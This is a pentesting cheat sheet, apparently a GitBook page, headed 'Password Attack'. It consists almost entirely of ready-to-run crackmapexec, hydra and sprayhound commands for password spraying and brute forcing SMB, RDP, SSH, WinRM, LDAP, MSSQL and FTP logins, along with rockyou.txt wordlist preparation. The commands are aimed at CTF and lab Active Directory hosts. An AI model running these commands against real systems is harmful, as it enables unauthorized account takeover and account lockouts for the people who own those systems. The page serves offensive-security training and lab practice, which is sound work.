 # Password Attack

### Password Spray

#### Only CTF - SMB (139,445) - Checking login == password using wordlist

{% code overflow="wrap" %}
```bash
# Try same username and password
crackmapexec smb $RHOST -u usernames.txt -p usernames.txt
crackmapexec smb $RHOST -u usernames.txt -p usernames.txt --no-bruteforce --continue-on-success

# Try different protocols with no brute force 
for p in 'ftp' 'ssh' 'smb' 'winrm' 'ldap' 'mssql'; do cme $p $RHOST -u usernames.txt -p usernames.txt --no-bruteforce --continue-on-success; done

# RDP 
hydra -V -f -L usernames.txt -P usernames.txt rdp://10.0.2.5 -V

# Try adding some updates on lower and upper cases (e.g. Ryan, ryan, RYAN)

tr '[:lower:]' '[:upper:]' < users.txt > users2.txt
tr '[:upper:]' '[:lower:]' < users.txt >> users2.txt
crackmapexec smb $RHOST -u users2.txt -p users2.txt
```
{% endcode %}

#### AD Password Spray

{% code overflow="wrap" %}
```bash
# A single password spray for multiple users 
cme smb $RHOST -u usernames.txt -p June2013 
cme smb $RHOST -u usernames.txt -p Summer2020 
# Multiple password spray for multiple users
cme smb $RHOST -u usernames.txt -p passwords.txt

# No bruteforce possible with this one as 1 user = 1 password
cme smb 192.168.56.11 -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-succes
```
{% endcode %}

#### Sprayhound

{% code overflow="wrap" %}
```bash
# https://github.com/Hackndo/sprayhound
# --lower  User as pass with lowercase password
sprayhound -U usernames.txt -d north.sevenkingdoms.local -dc 192.168.56.11 --lower

# We could try sprayhound with a valid user to avoid locking account (option -t to set the number of try left)
sprayhound -U usernames.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```
{% endcode %}

### Bruteforce Attack

#### cme + rockyou.txt

{% code overflow="wrap" %}
```bash
# Bruteforcing with limited number of passwords. 
cme smb 192.168.56.11 -u usernames.txt -p passwords.txt

# RDP 
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V

# Try different protocols with bruteforce 
for p in 'ftp' 'ssh' 'smb' 'winrm' 'ldap' 'mssql'; do cme $p $RHOST -u usernames.txt -p usernames.txt --continue-on-success; done

# You might need to clean up rockyou.txt and use the cleaned one.
iconv -f UTF-8 -t UTF-8 -c < /usr/share/wordlists/rockyou.txt | sed 's/[^[:print:]]//g' > cleaned_rockyou.txt
# Check a password for a user within 5 min 
timeout 5m crackmapexec smb $RHOST -u freedy -p /usr/share/wordlists/rockyou.txt
timeout 5m crackmapexec smb $RHOST -u calvin -p /usr/share/wordlists/rockyou.txt
timeout 5m crackmapexec smb $RHOST -u johana -p /usr/share/wordlists/rockyou.txt
```
{% endcode %}

